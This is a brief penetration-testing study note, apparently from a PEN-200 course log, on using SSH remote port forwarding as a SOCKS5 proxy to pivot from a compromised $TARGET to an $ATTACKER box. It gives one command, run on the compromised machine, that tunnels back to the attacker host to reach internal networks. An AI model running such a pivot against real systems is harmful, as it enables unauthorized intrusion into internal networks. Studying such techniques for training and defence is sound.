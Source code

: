 # Use SSH as a Proxy

**author**:: Nathan Acks  
**date**:: 2022-08-31

You can use SSH as a SOCKS5 proxy (with a tool like proxychains) using remote port forwarding.

You need to already have access to a $TARGET machine. SSH from the $TARGET back to the $ATTACKER box:

```bash
ssh -R $PORT $USER@$ATTACKER
```

This will open up $PORT on $ATTACKER, which can then be used as a SOCKS5 proxy by applications on $ATTACKER. Useful for gaining access to machines on an internal network that may be visible to $TARGET but not $ATTACKER.

* [2022-08-31 - OffSec Live: PEN-200](../log/2022-08-31-offsec-live-pen-200.md)
